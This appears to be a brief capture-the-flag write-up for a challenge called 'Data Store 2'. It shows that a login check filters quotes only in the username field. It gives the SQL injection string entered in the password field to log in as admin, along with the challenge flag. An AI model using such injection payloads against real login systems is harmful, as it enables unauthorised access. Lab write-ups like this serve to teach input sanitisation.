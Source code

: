# Data Store 2
The username field is checked for "'"
```python
	if(username.find("'")!=-1):
		return False
```
But this does not prevent you from inserting the injection in the password field
```
	login: admin
	password: 1' OR ' 1 ' = ' 1
```
### CYCTF{S@n1t1ze_@11_U$3R_1npu7$}
